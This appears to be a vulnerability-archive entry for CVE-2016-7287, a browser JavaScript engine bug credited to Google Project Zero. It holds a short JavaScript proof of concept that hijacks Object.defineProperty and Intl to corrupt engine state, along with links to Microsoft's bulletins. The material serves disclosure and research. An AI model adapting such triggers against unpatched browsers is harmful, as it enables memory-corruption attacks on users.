 # CVE-2016-7287

- Report: Dec 2016
- Fix: Oct 2016
- Credit: Natalie Silvanovich, Google Project Zero

## PoC

```javascript
var d = Object.defineProperty;

var noobj = {
  get: function () {
    return 0x1234567 >> 1;
  },
  set: function () { }
};

function f(){
  var i = Intl;
  Intl  = {}; // this somehow prevents an exception that prevents laoding
  d(i, "Collator", noobj);
}

Object.defineProperty = f;

var q = new Intl.NumberFormat(["en"]);
```

## Reference

- [Microsoft (MS16-144)](http://technet.microsoft.com/security/bulletin/MS16-144)
- [Microsoft (MS16-145)](http://technet.microsoft.com/security/bulletin/MS16-145)
- [Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=972)
